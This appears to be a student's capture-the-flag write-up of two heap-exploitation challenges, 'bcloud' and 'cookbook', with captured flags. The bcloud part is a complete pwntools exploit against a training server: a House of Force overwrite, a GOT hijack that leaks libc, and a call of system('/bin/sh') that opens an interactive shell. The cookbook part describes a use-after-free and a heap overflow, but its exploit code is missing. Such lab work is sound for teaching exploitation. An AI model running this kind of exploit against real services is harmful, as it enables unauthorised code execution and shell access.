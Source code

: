 # bcloud ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```python
from pwn import *
import time

# GUARDA LEZIONE DI MARIO

context.terminal = ['terminator', '-e']
'''
r = process("./bcloud") #env={'LD_PRELOAD': './libc-2.27.so'}
gdb.attach(r, """
	c
	""")
'''

r = remote("training.jinblack.it", 2016)
input("wait")

def new_note(size, data):
	r.sendline(b"1")
	r.recvuntil(b"Input the length of the note content:\n")
	r.sendline(b"%d" % size) 
	r.recvuntil(b"Input the content:\n")
	r.send(data)
	if(len(data)<size):
		r.send(b"\n")
	r.recvuntil("--->>\n")

def edit(note_id, data):
	r.sendline(b"3")
	r.recvuntil(b'Input the id:\n')
	r.sendline(b"%d" % note_id)
	r.recvuntil(b'Input the new content:\n')
	r.sendline(data)
	r.recvuntil("--->>\n")


r.recvuntil(b"name:\n")

r.send(b"A"*0x40)
leak = u32(r.recvuntil("!")[:-1][-4:])
print("! 0x%08x" % leak)

r.recvuntil(b"Org:\n")
r.send(b"B"*0x40)
r.recvuntil(b"Host:\n")
r.send(b"\xff"*0x40)

top_chunk = leak + 0xf8
print("! top_chunk: 0x%08x" % top_chunk)

got = 0x0804b000
target = 0x0804b120

big_size = (target - top_chunk - 4) & 0xffffffff
print("! big_size: 0x%08x" % big_size)
print(b"%d" % u32(p32(big_size, signed=False), signed=True))


r.sendline(b"1")
r.recvuntil(b"Input the length of the note content:\n")
r.sendline(b"%d" % u32(p32(big_size, signed=False), signed=True) ) 
r.recvuntil(b"Input the content:\n")
r.sendline("A")
r.recvuntil("--->>\n")



puts_plt = 0x08048520
free_got = 0x0804b014

#return pointer to note_list + delta
new_note(50, "")

#set size of other notes
new_note(4, "")
new_note(4, "")
new_note(4, "")
new_note(4, "")


def arbitrary_write(address, data):
	edit(1,address)
	edit(4,data)

note_slot_5 = 0x804b134
read_got = 0x0804b00c

arbitrary_write(p32(free_got), p32(puts_plt))
arbitrary_write(p32(note_slot_5), p32(read_got))

#delete note 5
r.sendline(b"4")
r.sendline(b"5")
r.recvuntil(b"id:\n")
read_libc = u32(r.recv(4))
r.recvuntil("--->>\n")
print("! read@libc 0x%04x" % read_libc)

# compute system address from read address offset in libc
system_libc = read_libc - 0xa9ab0	
arbitrary_write(p32(free_got), p32(system_libc))

# create new note with our bin sh as content
new_note(50, b"/bin/sh\x00")

# then "delete" the note -> free -> system(note)
r.sendline(b"4")
r.recvuntil(b"Input the id:\n")
r.sendline(b"5")

r.interactive()
```

**flag{you_got_horse_of_force!}**

# cookbook ![c](https://img.shields.io/badge/solved-success)
### Analysis
After a rapid analysis with file and checksec we can see that is stripped, so let's open the binary with Ghidra to better understand how it works. Search for the entry function, and consequentely the real main(). After an easy exploration of the code we can see that there is a mistake in the create_recipe function: cur_recipe is not set to NULL after the object is freed. This is a Use-after-Free vulnerability, that we can use to leak an address of the heap (by sending 'p' so calling the print_recipe_info function), leading us to calculate the base address of the heap.

IMMAGINE 1
IMMAGINE 2

Keep exploring this function: we can see that when sending 'n' the program calls a calloc with size 0x40C, but when we send 'g' to set a name our input (capped at 0x40C) is written to offset 0x23 into cur_recipe => Heap Overflow!

IMMAGINE 3
IMMAGINE 4

I was given also a libc to analyze: by looking at it with Ghidra I can 

PUTS_OFFSET = 0x77b40
SYSTEM_OFFSET = 0x4d200

#### Plan
- Use the first vulnerability (UaF) to leak an heap address.


### Exploit
```python
recuperare da VM
```
**flag{house_of_force_once_again!}**

